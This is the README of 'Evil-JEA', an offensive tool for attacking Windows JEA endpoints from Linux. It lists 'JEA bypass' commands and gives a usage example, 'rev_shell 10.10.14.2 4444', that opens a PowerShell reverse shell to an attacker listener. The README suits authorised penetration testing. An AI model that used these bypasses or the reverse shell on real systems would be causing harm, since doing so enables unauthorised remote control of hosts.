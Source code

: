 # Evil-JEA

A small WinRM client designed for interacting with JEA endpoints from Linux.

## Installation

From PyPi:
```
pip install evil-jea
```

From source:
```
git clone https://github.com/sashathomas/evil-jea
cd evil-jea
make install
make build
```

## Usage
```
Usage: evil-jea [OPTIONS] COMMAND [ARGS]...

  ___________     .__.__                 ____.___________   _____   
  \_   _____/__  _|__|  |               |    |\_   _____/  /  _  \  
   |    __)_\  \/ /  |  |    ______     |    | |    __)_  /  /_\  \ 
   |        \\   /|  |  |__ /_____/ /\__|    | |        \/    |    \
  /_______  / \_/ |__|____/         \________|/_______  /\____|__  /
          \/                                          \/         \/ 
                                                                                                                           
      

Options:
  -v, --verbose  Enable verbose output.
  --help         Show this message and exit.

Commands:
  connect  Connect to JEA target.
  run      Run a single command on the JEA target.
  shell    Attempts to run a reverse shell on the target using a call...
  version  Get the library version.
```
## JEA Shell
Once connected to a shell, evil-jea offers a couple custom commands to help find and exploit common JEA misconfigurations:

```
[10.10.10.210]: PS> help

JEA Shell Commands:
    help                    Show list of available commands
    info [command]          Dump definitions for available commands. 
    call [command]          JEA bypass: Attempts to run [command] using call operator 
    function [command]      JEA bypass: Attempts to run [command] inside of a custom function
    rev_shell [ip] [port]   JEA bypass: Attempts to run a PowerShell reverse shell using call operator
```

## Examples
Connect to JEA endpoint:
```
evil-jea connect username password 10.10.10.10
```

Run single command on JEA endpoint:
```
evil-jea run username password 10.10.10.10 "Get-Command"
```

Try to run a PowerShell reverse shell using a call operator bypass:
```
[10.10.10.210]: PS> rev_shell 10.10.14.2 4444
```

## License

Copyright (c) sashathomas

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
